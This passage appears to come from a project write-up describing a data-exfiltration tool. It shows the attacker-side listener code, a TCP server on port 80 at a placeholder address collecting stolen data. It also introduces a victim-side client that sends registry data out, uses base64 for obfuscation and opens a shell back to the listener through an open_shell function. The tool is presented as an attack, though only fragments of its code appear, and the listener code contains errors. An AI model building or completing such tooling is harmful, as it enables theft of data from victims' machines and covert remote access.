 The program enters at line 33.  

```python
if __name__ == '__main__':
  try:
    #Creates instance of custom handler
    myHandler = httpHandler

    #Creates instance of TCP Listener on 
    #the given ip address, port 80 with
    #the custom handler to exfiltrate Data
    serv_sock = socketserver.TCPServer(('xxx.xxx.xxx.xxx', 80), myHandler)

    #The while loop permits collection of
    #many incoming requests
    while True:
      serv_sock.serve_forever()

    #Closes Connection 
    print("Closing Connection")
    serv_sock.server_close_connection()

  except KeyboardInterrupt:
    print("ctrl-c was hit")
    serv_sock.server_close()
```

## 3.4 Client.py

This script runs on the victim machine and exfiltrates the registry data to the listener.  

We used several external python libraries:  

   1. All of the socket programming was done using the **`socket`** module.  
   2. HTTP requests were made using the **`requests`** module.  
   3. To call command line commands from our script, we utilized python's **`subproccess`** module.  
   4. The **`signal`** module allows us to kill the program in runtime.  
   5. The **`sys`** module allows us to invoke `sys.exit()`.  
   6. The **`os`** module allows us to collect our current directory path.  
   7. Finally, we used the **`base64`** module for an obfuscation attempt.  

```python
import socket as sock
import requests as re
import subprocess
from subprocess import PIPE
import signal
import sys
import os
import base64
```

The **`open_shell`** function sends an HTTP GET request to the listener, establishing the connection. It passes in the URL of the listener and returns a connection socket to communicate over.  
